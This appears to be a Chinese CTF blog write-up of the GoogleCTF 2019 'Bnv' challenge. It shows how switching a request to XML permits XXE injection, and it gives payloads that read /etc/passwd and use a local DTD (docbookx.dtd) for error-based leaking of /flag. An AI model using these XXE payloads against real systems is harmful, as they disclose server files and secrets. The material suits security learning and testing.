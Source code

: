 ```yaml
---
title: '[GoogleCTF2019 Quals]Bnv'
date: 2024-09-12 19:02:47
tags: xxe
categories: 刷题笔记
---
```


### [GoogleCTF2019 Quals]Bnv

我们打开页面，没发现有啥信息，我们进行抓包

![image-20240919204517785](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409192045873.png)

我们看到json格式的，将json改为xml格式，尝试xxe注入

```
Content-type: application/json
Content-type: application/xml
```

首先构造DTD,声明实体b和元素message

其实之前做得题目都是不用申明元素的，这里如果不申明会报

<!--more-->

```
No declaration for element message, line 5, column 23
```

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE message [     <!-- 定义此文档是message类型的文档。-->
        <!ELEMENT message (#PCDATA)> <!-- 定义message元素为 "#PCDATA" 类型 -->
    <!ENTITY b "135601360123502401401250">
]>
<message>&b;</message>

```

![image-20240919204955823](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409192049937.png)

成功执行

再尝试加上name实体来加载内部文件

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE message [
        <!ELEMENT message (#PCDATA)>
    <!ENTITY b "135601360123502401401250">
    <!ENTITY % name SYSTEM "file:///etc/passwd">
        %name;
]>
<message>&b;</message>

```

> 发生报错：internal error: xmlParseInternalSubset: error detected in Markup declaration, line 1, column 1
>
> 文档类型声明包含或指向的标记声明必须格式正确
> 这意味着文件已经正确加载了，但由于它不是个格式良好的xml文件 所以它中断了。

如果我们尝试引用系统不存在的文件，会报错：

> failed to load external entity “file:///xxxx”, line 6, column 10

我们可以试出flag在根目录下

然后看这篇文章[Exploiting XXE with local DTD files (mohemiv.com)](https://mohemiv.com/tags/xxe/)

Linux设备可在/usr/share/yelp/dtd/docbookx.dtd中有一个DTD文件。并且这个文件又一个名为ISOamsa的实体，所以我们可以使用它来写DTD代码。
![img](https://i-blog.csdnimg.cn/blog_migrate/b50742e8d6346370f99fd538a0e3d8ed.png)

首先读/flag，第二次把/flag的里的值做实体来读取，因为/flag的里的值这个实体不存在，就会报错返回，得到flag。

像那篇文章里面写得

![image-20240919205514109](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409192055152.png)

payload:

```
<?xml version="1.0"?>

<!DOCTYPE message[
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///flag">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaaaa/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
%local_dtd;
]>
//因为我们要的是报错嘛，后面的文档部分有没有无所谓了
```


得到flag

![image-20240919205554934](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409192055992.png)
